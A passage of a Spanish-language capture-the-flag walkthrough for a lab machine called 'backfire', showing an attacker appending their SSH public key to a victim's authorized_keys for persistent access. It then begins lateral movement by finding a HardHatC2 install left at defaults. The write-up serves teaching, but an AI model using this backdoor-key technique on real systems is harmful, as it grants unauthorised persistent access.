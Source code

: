 ```bash
ilya@backfire:~/Havoc/payloads/Demon$ cd /home/ilya/.ssh/
cd /home/ilya/.ssh/
ilya@backfire:~/.ssh$ ls -l
ls -l
total 4
-rw-r--r-- 1 ilya ilya 1 Dec 17 11:36 authorized_keys
ilya@backfire:~/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali' >> authorized_keys
<xygCF1kT7UbFMFfVqiyz0 kali@kali' >> authorized_keys
ilya@backfire:~/.ssh$ cat authorized_keys
cat authorized_keys

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali
```

Desde nuestro equipo atacante, nos conectaremos mediante SSH al equipo víctima con el usuario `ilya` y verificaremos que no nos requiere de credenciales de acceso.

```bash
❯ ssh ilya@10.10.11.49
The authenticity of host '10.10.11.49 (10.10.11.49)' can't be established.
ED25519 key fingerprint is SHA256:vKC7A11sFxQLRppUMt01q0d/DPREoskH4Aa42t0Bz9M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.49' (ED25519) to the list of known hosts.
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
ilya@backfire:~$
```

## Lateral Movement

### Reviewing services on the machine and detecting running HardHat 2 services

Revisando el directorio de `ilya`, nos encontramos con el siguiente archivo `hardhat.txt` el cual informa que el usuario `sergej` dice haber instalado `HardHatC2` para realizar pruebas y que no realizó ningún cambio a las configuraciones por defecto. También indica que espera que haya escogido el C2 de `Havoc` en vez del mencionado.

```bash
ilya@backfire:~$ ls -l
total 16
drwxr-xr-x  2 root root 4096 Sep 30 07:39 files
-rw-r--r--  1 root root  174 Sep 28 23:02 hardhat.txt
drwxr-xr-x 10 ilya ilya 4096 Sep 27 19:18 Havoc
-rw-r-----  1 root ilya   33 Jan 20 22:00 user.txt
ilya@backfire:~$ cat hardhat.txt 
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 
```

Buscamos información sobre `HardHat C2`, nos encontramos con el repositorio del framework en el cual nos informan de las características, configuraciones y demás. Entre la información obtenida del repositorio del framework, nos informa que normalmente utiliza los puertos `5000` y `7096`.
